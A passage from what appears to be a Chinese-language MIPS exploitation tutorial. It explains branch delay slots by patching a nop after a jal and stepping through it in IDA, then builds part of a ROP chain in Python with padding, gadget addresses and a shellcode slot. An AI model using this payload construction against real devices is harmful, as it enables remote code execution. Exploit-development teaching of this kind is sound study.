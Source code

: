 下面是`parent_func`函数的汇编代码，可以看到每一条调用函数的jalr（jal）之后都紧跟着一个nop指令：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660816030695-279c66b3-00c8-4b4a-b27a-7cd7f3332747.png)

但是你真的在意过这些nop指令的作用吗？我们可以将任意一个函数后面的nop改为其他不影响程序执行流程的指令，这里就改`jal child1_func1`的nop吧，改为`move $a1, $a0`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660823033203-58bc0f63-2f08-4a86-9c6d-1e6ecdbc0757.png)

将此可执行文件导出，使用IDA调试：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660823485467-b5040034-daa3-4174-9f1b-b6e6108c232f.png)

现在`$a0`与`$a1`的寄存器值分别为`0x004009F0`与`0xFFFFFFFF`，按下F7单步步入：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660823591545-8fbed2b9-c625-4fa9-a25d-3277c20be774.png)

现在`$a1`的值同样变化为`0x4009F0`，说明程序在执行`child1_func`函数的第一条指令之前提前执行了`move $a1, $a0`，这也就是为什么每条调用函数的汇编指令之后紧跟着一个nop而非其他指令 -- 不进行任何操作；出现这种情况的原因似乎与MIPS架构的流水线特性有关...函数返回后retn到`&jal+8`处继续执行。

其实前面所展示的gadgets是省略的，都缺少了调用指令之后的那条指令，回过头来看我们的gadgets，首先是：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660824087994-9035cba2-9d57-4e07-bf63-0acbd001785c.png)

哎，这就对味了嘛（下面的代码框以`$sp`为基准）：

```python
# 执行前
payload += b'c'*44
payload += padding                        	# s0（4字节，下同）
payload += padding                        	# s1
payload += padding                        	# s2
payload += p32(jalr_t9_gadget)            	# s3
payload += p32(addiu_a1_sp_24_gadget)     	# ra  
payload += b'd'*24
payload += shellcode

# 执行后
payload += b'd'*24
payload += shellcode
```

```python
'''
lw_s3_gadget:
# .text:000A0C7C                 lw      $ra, 0x2C+var_s10($sp)【$ra == &addiu_a1_sp_24_gadget】
# .text:000A0C80                 lw      $s3, 0x2C+var_sC($sp) 【$s3 == &jalr_t9_gadget】
# .text:000A0C84                 lw      $s2, 0x2C+var_s8($sp) 【$s2 == "TruE"】
# .text:000A0C88                 lw      $s1, 0x2C+var_s4($sp) 【$s1 == "TruE"】
# .text:000A0C8C                 lw      $s0, 0x2C+var_s0($sp) 【$s0 == "TruE"】
# .text:000A0C90                 jr      $ra				   【调用addiu_a1_sp_24_gadget】
# .text:000A0C94                 addiu   $sp, 0x40				
''' 
```

执行`addiu_a1_sp_24_gadget`：
